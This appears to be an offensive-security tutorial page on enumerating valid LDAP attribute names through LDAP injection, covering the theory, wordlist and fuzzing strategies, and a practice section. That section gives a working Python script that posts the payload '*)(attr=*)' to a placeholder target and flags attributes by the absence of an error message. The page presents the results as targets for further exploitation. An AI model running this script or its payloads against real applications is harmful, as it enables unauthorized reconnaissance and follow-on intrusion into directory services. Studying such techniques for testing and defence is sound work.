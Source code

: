 ```yaml
---
title: 'Discover Valid LDAP Fields: A Comprehensive Guide'
description: Understand and automate LDAP attribute enumeration with scripting techniques
  to discover valid fields in LDAP schema.
keywords:
- LDAP attribute enumeration
- LDAP injection
- automated LDAP discovery
- LDAP schema
- directory service concepts
- LDAP query structure
- Python scripts for LDAP
- LDAP field discovery
---
```


# Discover Valid LDAP Fields

## Context

The goal of this technique is to enumerate valid LDAP attribute fields through the use of injection and scripting methodologies. This enables further exploitation activities, providing a broader attack surface. Readers should be familiar with the fundamentals of the LDAP protocol, directory service concepts, the structure of LDAP queries, and general LDAP injection techniques.

## Theory

### LDAP Attribute Enumeration via Injection

LDAP attribute enumeration involves identifying valid attribute names within an LDAP schema by exploiting injection vulnerabilities. Attackers can leverage this method by monitoring error messages or examining any behavioral differences that arise due to the injections. The core concept is to inject candidate attribute names into LDAP queries and observe the LDAP server’s responses. This allows attackers to distinguish valid attributes from invalid ones based on the server's feedback.

### Automated LDAP Field Discovery with Scripts

Scripts are often employed to automate the discovery process. By using scripts, attackers can systematically test numerous attribute names, significantly increasing the speed and coverage of the LDAP field discovery process. The data flow in this process typically involves a script that injects attribute names sourced from a wordlist, evaluates server responses, and logs any valid fields that are discovered.

### Wordlists and Fuzzing Strategies

The use of comprehensive attribute wordlists is crucial for improving discovery rates. These wordlists include both common and custom attribute names, which might be specific to certain LDAP implementations. In order to bypass input filters, fuzzing techniques may encode or obfuscate attribute names, allowing injections to circumvent basic defenses.

## Practice

### Automated LDAP Attribute Field Enumeration Using Python Script

- **Prepare a wordlist**: Compile a list of common and customized LDAP attribute names. This wordlist enhances the probability of identifying existing fields within the LDAP schema.

    ```text
    GivenName
    UID
    Mail
    cn
    sn
    ```

- **Python Script for Automation**: Create a script utilizing Python to automate the enumeration of LDAP fields against a target application.

    ```python
    #!/usr/bin/env python3
    import requests
    
    url = 'http://target-app/ldap_search'
    wordlist = open('ldap_attributes.txt')
    
    for attr in wordlist:
        payload = f'*)({attr.strip()}=*)'
        r = requests.post(url, data={'search': payload})
        
        if 'Invalid attribute' not in r.text:
            print(f'Valid attribute found: {attr.strip()}')
    ```

    This script injects each attribute from the wordlist and examines the server's response for error messages indicating invalid fields.

- **Execute the Script**: Run the script to initiate the enumeration process.

    ```bash
    python3 ldap_field_enum.py
    ```

The execution of this script will output a list of valid LDAP attribute fields, offering new targets for further exploitation and more refined LDAP queries.

## Tools

- **python3**
- **requests**
